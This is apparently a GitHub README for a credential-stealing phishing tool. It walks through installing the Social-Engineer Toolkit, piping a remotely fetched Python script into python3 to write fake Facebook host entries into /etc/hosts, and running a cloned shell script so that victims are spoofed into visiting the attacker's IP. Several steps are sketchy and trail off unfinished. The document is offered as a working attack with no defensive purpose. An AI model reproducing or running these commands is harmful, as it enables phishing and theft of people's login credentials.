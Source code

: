 # SSTC-login-HTTPS stealing credentials
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials/blob/master/logo/http.png)

# Exploit steps:
1. - Installing requirements
`pip install -r requirements.txt`

2. - Prepitr packages
For other Linux distro attackers
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
// For kali 
```bash 
setoolkit
```

3. - Creating hosts exploit facebook.bgr
- For Linux
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-login-credentials/master/hosts/modules/pyexploitcreate/pyexploitcreateIP_host_fake.py | python3 >> /etc/hosts
```
- continue..
-----------------------------------------------------------------------------------------
# For Windows
1. -
```
git clone https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials.git 
cd SSTC-HTTPS-login-credentials/sh1mazu_https_fake
bash sh1m@zu.sh
```
2. -
- Spoof victim to open your IP ;)
```
```


